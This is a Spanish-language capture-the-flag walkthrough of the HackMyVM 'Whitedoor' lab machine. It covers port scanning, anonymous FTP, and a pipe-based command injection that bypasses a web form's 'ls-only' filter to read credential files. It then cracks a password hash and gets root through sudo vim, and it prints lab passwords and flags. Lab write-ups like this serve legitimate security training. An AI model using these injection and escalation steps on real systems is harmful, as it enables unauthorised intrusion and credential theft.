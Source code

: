 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Whitedoor HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-15 07:48 EDT
Nmap scan report for 192.168.5.39
Host is up (0.00085s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Nov 16  2023 README.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.5.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
|_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Home
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:CE:C3:05 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds
```

Veremos que hay varios puertos entre ellos, el puerto `80` y el `FTP` que por lo que vemos se puede conectar de forma anonima, por lo que vamos a probar a leer ese archivo que nos esta detectando a ver que contiene.

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estamos dentro, vamos a descargarnos el archivo `.txt`.

```shell
get README.txt
```

Ahora si lo leemos veremos lo siguiente:

```
¡Good luck!
```

Nada interesante, por lo que vamos a investigar el puerto `80`, que si entramos veremos que esta alojando una pagina web en la que tiene un cuadro de texto para meter palabras o texto, pero si metemos cualquier palabra nos pondra lo siguiente:

```
Permission denied. Only the 'ls' command is allowed.
```

Vamos a probar a meter el `ls` a ver que pasa:

```
blackdoor.webp
blackindex.php
index.php
whitedoor.jpg
```

Veremos que te lista cosas interesantes, pero vamos a probar a ver que esta haciendo la peticion por dentro con `BurpSuite`, abriremos `BurpSuite` capturaremos la peticion del `ls` y vamos a investigar como responde, etc...

## Escalate user whiteshell

Pero no veremos nada interesante, vamos a pronar a intentar concatenar comandos con un `pipeline` (`|`), a ver si nos permite ejecutar comandos que no sean solo el `ls`.

```shell
ls | whoami
```

Info:

```
www-data
```

Vemos que efectivamente esta funcionando, por lo que vamos a investigar realizando este `bypass` de restriccion de comandos.

Indiagando un poco en el sistema, veremos el siguiente archivo ejecutando lo siguiente:

```shell
ls | ls -la /home/whiteshell/Desktop
```

Info:

```
total 12
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17  2023 ..
-r--r--r-- 1 whiteshell whiteshell   56 Nov 16  2023 .my_secret_password.txt
```

Vamos a ver que contiene con este otro comando.

```shell
ls | cat /home/whiteshell/Desktop/.my_secret_password.txt
```

Info:

```
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```

Vemos lo que parece unas credenciales, pero la contraseña esta codificada en `Base64`, por lo que vamos a intentar decodificarla de esta forma.

```shell
echo "VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K" | echo "VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=" | base64 -d
```

Info:

```
Th1sIsTh3P4sSwOrDblac5
```

### SSH

Veremos que hemos obtenido la contraseña original, por lo que vamos a probarlo mediante el `SSH` de esta forma.

```shell
ssh whiteshell@<IP>
```

Metemos como contraseña `Th1sIsTh3P4sSwOrDblac5` y veremos que estaremos dentro.

## Escalate user Gonzalo

Si nos vamos a la `/home` del usuario `Gonzalo` veremos que en la carpeta `Desktop/` esta el mismo archivo que nosotros teniamos en nuestra carpeta de `whiteshell`, pero si lo leemos veremos lo siguiente:

```shell
cat /home/Gonzalo/.my_secret_hash
```

Info:

```
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```

Por lo que vemos es el `hash` de la contraseña del usuario `gonzalo` por lo que vamos a intentar crackearla con `john`.

```shell
john --format=crypt --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwertyuiop       (?)     
1g 0:00:00:04 DONE (2025-06-15 08:04) 0.2457g/s 94.34p/s 94.34c/s 94.34C/s adidas..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado y habremos obtenido la contraseña del usuario `gonzalo` vamos a probarla con dicho usuario.

```shell
su Gonzalo
```

Metemos como contraseña `qwertyuiop` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
Y0uG3tTh3Us3RFl4g!!
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Veremos que podemos ejecutar el binario `vim` como el usuario `root`, por lo que podremos hacer lo siguiente:

```shell
sudo vim -c ':!/bin/bash'
```

Info:

```
root@whitedoor:/home/Gonzalo# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
Y0uAr3Th3B3sTy0Ug3Tr0oT!!
```
